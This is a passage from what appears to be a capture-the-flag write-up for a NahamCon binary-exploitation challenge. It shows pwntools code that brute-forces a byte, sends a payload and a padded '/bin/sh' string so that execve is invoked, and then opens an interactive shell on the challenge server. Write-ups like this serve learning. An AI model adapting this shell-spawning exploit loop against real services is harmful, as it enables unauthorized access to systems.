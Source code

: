 ```python
b = 0x0
# local and remote values from bruteforce
'''
if args.REMOTE:
    b = 0x28
else:
    b = 0x19
'''

context.log_level = 'WARN'
```

All that is really necessary above is the `b = 0x0` for the brute force loop, however I included the discovered values for my system and the challenge server for rapid testing.

The log level of `WARN` just removes all the pwntools connection/disconnection messages.  Something useful when brute forcing.


```python
while b <= 0xff:
    if args.REMOTE:
        p = remote('challenge.nahamcon.com', 31135)
    else:
        # socat TCP-LISTEN:9999,reuseaddr,fork EXEC:$PWD/smol,pty,stderr,setsid,sigint,sane,rawer
        p = remote('localhost', 9999)

    try:
        p.send(payload)
        time.sleep(.1)

        log.warn('testing b=' + hex(b))
        p.send(p8(b))
        time.sleep(.1)
        b += 1

        # /bin/sh send padded to 0x3b so rax has syscall number for execve
        p.send(b'/bin/sh\0' + (0x3b-8) * b'A')
        time.sleep(.1)

        p.sendline('echo shell')
        # to catch tty control errors, just lazy and try again
        if b'shell' in p.recvline():
            p.interactive()
            break
        if b'shell' in p.recvline():
            p.interactive()
            break
    except:
        p.close()
```

Finally, the main loop.
